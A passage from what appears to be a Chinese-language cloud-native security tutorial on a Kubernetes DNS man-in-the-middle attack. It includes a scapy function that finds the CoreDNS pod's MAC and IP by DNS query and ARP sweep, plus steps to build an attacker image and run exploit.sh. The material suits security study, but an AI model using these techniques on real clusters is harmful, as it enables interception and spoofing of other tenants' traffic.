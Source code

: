 然后直接查询 ARP 缓存，获得网桥 MAC 地址。如果没有，可以先向网桥发送一个 ARP 请求：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>arp -n<br>``` |

**其次是 Core DNS Pod** 的 IP 和 MAC 地址。结合背最知识部分 DNS 内容可知。pod 内部仅仅能拿到一个kube-dns 服务的 IP，通常是 10.96.0.10。但是，如果攻击者 pod 向该服务发送一个 DNS 查询请求，实际上是服务背后的 Core DNS Pod 回复 DNS 响应的（经过 DNAT 处理，目的地改为 CoreDNS Pod)。而 DNS 响应又是一个 UDP 报文，因此我们可以从中提取到 CoreDNS Pod 的 MAC 地址。但是，DNS 响应又会被进行 SNAT 处理，其中的 IP 地址被重新替换为 kube-dns 服务 IP 10.96.0.10。所以，以上步骤只能让攻击者拿到 CoreDNS Pod 的 MAC 地址。

所以，攻击者可以向整个子网的每个 IP 发出 ARP 请求，收集它们的 MAC 地址，然后与前面获得的 CoreDNS Pod 的 MAC 地址进行比对，如果一致，则说明对应 IP 即为 CoreDNS Pod 的 IP。

相关代码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```python<br>def get_coredns_pod_mac_ip(kube_dns_svc_ip, self_ip, verbose):<br>    mac = srp1(Ether() / IP(dst=kube_dns_svc_ip) /<br>               UDP(dport=53) / DNS(rd=1, qd=DNSQR()), verbose=verbose).src<br>    answers, _ = srp(Ether(dst="ff:ff:ff:ff:ff:ff") /<br>                     ARP(pdst="{}/24".format(self_ip)), timeout=4, verbose=verbose)<br>    for answer in answers:<br>        if answer[1].src == mac:<br>            return mac, answer[1][ARP].psrc<br><br>    return None, None<br>``` |

### [](#44-%E5%A4%8D%E7%8E%B0)4.4 复现

代码：[云原生网络攻击](https://github.com/Metarget/cloud-native-security-book/tree/main/code/0405-%e4%ba%91%e5%8e%9f%e7%94%9f%e7%bd%91%e7%bb%9c%e6%94%bb%e5%87%bb)

模拟构建攻击者镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker build -t k8s_dns_mitm:1.0 .<br>``` |

使用 exploit.sh 分别部署 attacker 和 victim pod：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>./exploit.sh<br>``` |
